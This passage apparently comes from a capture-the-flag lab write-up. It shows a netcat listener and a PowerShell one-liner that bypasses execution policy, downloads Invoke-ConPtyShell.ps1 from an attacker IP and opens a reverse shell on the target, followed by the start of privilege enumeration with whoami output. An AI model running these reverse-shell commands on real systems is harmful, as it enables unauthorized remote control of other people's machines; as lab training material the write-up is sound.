 Start Listener

```bash
stty raw -echo; (stty size; cat) | nc -lvnp 1111
```

Press **WIN + R** on target to run :

```bash
powershell -nop -ep bypas -C "IEX (new-object net.webclient).downloadstring('http://10.11.19.145/Invoke-ConPtyShell.ps1');Invoke-ConPtyShell 10.11.19.145 1111"
```

![](/assets/obsidian/c873cce8a82bd4751f7f2afbd3623334.png)


# Root Flag


## Basic Enum

```bash
PS C:\Windows\system32\WindowsPowerShell\v1.0> whoami /all
USER INFORMATION
----------------

User Name     SID
============= ============================================
retroweb\wade S-1-5-21-3990336274-2859881772-14168232-1000


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                         
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users           Alias            S-1-5-32-555 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
...
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                     


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
```